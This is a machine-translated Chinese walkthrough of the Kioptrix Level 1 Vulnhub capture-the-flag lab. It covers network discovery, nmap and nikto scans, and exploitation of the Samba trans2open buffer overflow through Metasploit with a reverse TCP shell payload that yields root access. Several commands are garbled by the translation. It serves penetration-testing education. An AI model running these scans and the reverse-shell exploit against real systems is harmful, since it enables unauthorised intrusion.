 # kioptrix:1 级[Vulnhub]演练

> 原文：<https://infosecwriteups.com/kioptrix-level-1-vulnhub-walkthrough-49bcc7306e72?source=collection_archive---------0----------------------->

![](img/9dfb5a70e0e42e8e67011dd3b7fcd24a.png)

Kioptrix 是一个引导到根的挑战，你可以从 [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 下载。您可以下载并安装在您的虚拟机上。

![](img/569987be2ccc0253c9f91b47b16fe56b.png)

图 1 -Kioptrix 登录

**描述**

> 这个 Kioptrix 虚拟机映像是简单的挑战。游戏的目标是通过任何可能的手段获得根用户权限(除了真正入侵 VM 服务器或玩家)。这些游戏的目的是学习脆弱性评估和利用的基本工具和技术。成功完成挑战的方法不止一种。

**方法论**

*   网络扫描
*   列举
*   剥削
*   获得 root 访问权限

**用过的工具**

*   Nmap
*   尼克托
*   Metasploit

那么，我们开始吧。

打开攻击机器(Kioptrix 1.0 虚拟机)并扫描本地网络以获取受害者的 IP 地址。为此，您可以使用 **netdiscover** 命令。

> sudo 网络探索

![](img/0ea854ccbd26e812199a8d6f0f678e0a.png)

图 2-网络发现

![](img/bc961c94efc07eccfafc17ae62306e2e.png)

图 3-网络发现结果

获得目标的 IP 地址后，我们将枚举目标的开放端口和协议。为此，我使用了 Nmap 主动命令。请考虑您的目标 IP 地址可能与我的不同。

*   这是我的 nmap 结果，但这可能与你的略有不同，因为我已经为我的机器安装了 Nmap 脚本。

> nmap-A 192 . 168 . 1 . 14-开结果. txt

*   开-将输出保存到文件中

![](img/af013cd96493949ae4549450df2ca415.png)

图 4-Nmap 扫描

![](img/15b3b7257299ede855a1f49407d58e17.png)

图 5-端口 80 打开

![](img/25ae3b5796d393a861874a824da78c65.png)

图 6-端口 443 打开

因为端口 80 是开放的，并且正在运行 apache 服务。所以，我试着去看看。但这只是一个测试页面。

![](img/c1803e120af514d2cf9bdeff8d4b6ef8.png)

图 7-网页

然后我查看了页面源代码以获得更多信息。但是它没有给出太多信息。

![](img/6abe6959bc8ed4575a189fe90e7381c1.png)

图 8-查看页面源代码

然后我在下面命令的帮助下使用了 **nikto** 漏洞扫描。

> nikto-h[http://192 . 168 . 1 . 14](http://hTTP://192.168.1.14)/

![](img/b31c09e0fa00fa6378393b811f13e94a.png)

图 9 -Nikto 扫描

由于有了上述枚举的帮助，很明显实验室可以利用多个，因此我们不浪费时间，在 Metasploit 的帮助下执行以下命令，并尝试组成目标的虚拟机。

这利用了 Samba 版本 2.2.0 到 2.2.8 中的缓冲区溢出。该特定模块能够利用未设置 noexec 堆栈选项的 x86 Linux 系统上的缺陷。注意:RedHat 的一些旧版本似乎不容易受到攻击，因为它们显然不允许匿名访问 IPC。

我使用 Metasploit 来利用这个漏洞。

要启动 Metasploit DB，我们可以使用以下命令。

> sudo msfdb 初始化
> 
> msfconsole

![](img/49bf3b762440e332d2af0ad6603f3001.png)

图 10-启动 msfconsole

然后，我们搜索漏洞并配置利用选项。

> 搜索 trans2open

![](img/38d7290ddfd3112d0a5fe5f34a46a086.png)

图 11-搜索模块

> 使用 exploit/linux/samba/trans2open

我们可以使用**选项**命令来查看选项。

![](img/21ab465bae0c578bc634f5bb1787dd16.png)

图 12-选项

然后配置远程主机(RHOST)、本地主机(lhost)和有效负载。这里我们使用 reverse_tcp shell 来提升特权。

> MSF exploit(Linux/samba/trans 2 open)> set rhost 192 . 168 . 1 . 14
> 
> MSF exploit(Linux/samba/trans 2 open)>设置有效负载 linux/x86/shell_reverse_tcp
> 
> msf 漏洞利用(linux/samba/trans2open)>设置 lhost 192.168.1.15
> 
> msf 漏洞利用(linux/samba/trans2open)>漏洞利用

![](img/033fdb730860ab847ea1837393748dba.png)

图 14 —开发

Booom！！这里我们有一个受害者机器的命令外壳，具有根用户权限。

我认为你从这篇文章中学到了一些东西。那么，我们就在下一篇文章里见面吧。黑客快乐！😊